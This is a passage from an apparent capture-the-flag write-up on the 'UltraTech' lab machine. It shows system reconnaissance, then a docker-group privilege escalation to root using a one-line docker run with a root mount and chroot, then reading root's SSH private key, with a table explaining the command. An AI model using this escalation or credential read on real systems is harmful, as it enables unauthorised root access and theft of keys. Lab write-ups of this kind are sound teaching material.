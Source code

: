 We can run some basic commands to gain information about the system and the current user:

```bash
r00t@ultratech-prod:~$ whoami
r00t
r00t@ultratech-prod:~$ uname -a
Linux ultratech-prod 4.15.0-46-generic #49-Ubuntu SMP Wed Feb 6 09:33:07 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
r00t@ultratech-prod:~$ cat /proc/version
Linux version 4.15.0-46-generic (buildd@lgw01-amd64-038) (gcc version 7.3.0 (Ubuntu 7.3.0-16ubuntu3)) #49-Ubuntu SMP Wed Feb 6 09:33:07 UTC 2019
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

And here we get our potential vector for performing privilege escalation i.e. the user's presence in the "docker" group. We can use this to escalate our privileges to `root` which just one simple command:

```bash
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# whoami
root
# cd root
# cd .ssh
# ls -la
total 16
drwx------ 2 root root 4096 Mar 22  2019 .
drwx------ 6 root root 4096 Mar 22  2019 ..
-rw------- 1 root root    0 Mar 19  2019 authorized_keys
-rw------- 1 root root 1675 Mar 22  2019 id_rsa
-rw-r--r-- 1 root root  401 Mar 22  2019 id_rsa.pub
# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
```

So, basically the `docker` command can be broken down as:

| Term/Switch        | Meaning                                                      |
| ------------------ | ------------------------------------------------------------ |
| `docker`           | Running the docker command                                   |
| `run`              | Run the container                                            |
| `-v`               | Specifying the volume                                        |
| `/:/mnt`           | Mount the root directory (`/`) at `/mnt`                     |
| `--rm`             | Remove the container after exit                              |
| --it               | Interactive                                                  |
| `bash chroot /mnt` | `bash` is being used to run the `chroot` command which change the effective root directory to `/mnt` |
| `sh`               | Start a `sh` shell                                           |

And with this we have rooted the UltraTech machine!
